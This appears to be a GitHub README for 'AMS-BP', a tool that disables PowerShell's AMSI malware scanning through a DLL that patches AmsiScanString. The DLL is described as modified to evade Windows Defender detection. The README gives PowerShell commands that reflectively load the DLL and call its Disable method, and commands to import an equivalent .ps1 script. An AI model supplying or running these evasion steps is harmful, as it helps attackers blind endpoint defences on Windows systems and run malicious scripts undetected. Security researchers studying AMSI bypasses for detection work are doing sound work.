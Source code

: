 # AMS-BP
AMSI Bypass for powershell
# AMS-BP
Bypass Powershell AMSI using a simple script.
This Script is comprised of a DLL (source file included) which when loaded and executed will disable AmsiScanString.
This DLL is based on [CyberArk Post](https://www.cyberark.com/threat-research-blog/amsi-bypass-redux/) with some minor changes to defeat Windows Defender and AMSI itself which is now recognizes the strings inside the DLL when it is loaded.

## Usage:
__Using the DLL__
```powershell
PS C:\> [Reflection.Assembly]::Load([IO.File]::ReadAllBytes("$pwd\\Source.dll"))
PS C:\> [BP.AMS]::Disable()
```
__Using the .ps1 script__
```powershell
PS C:\> Import-Module .\AMSBP.ps1
PS C:\> AMSBP
```
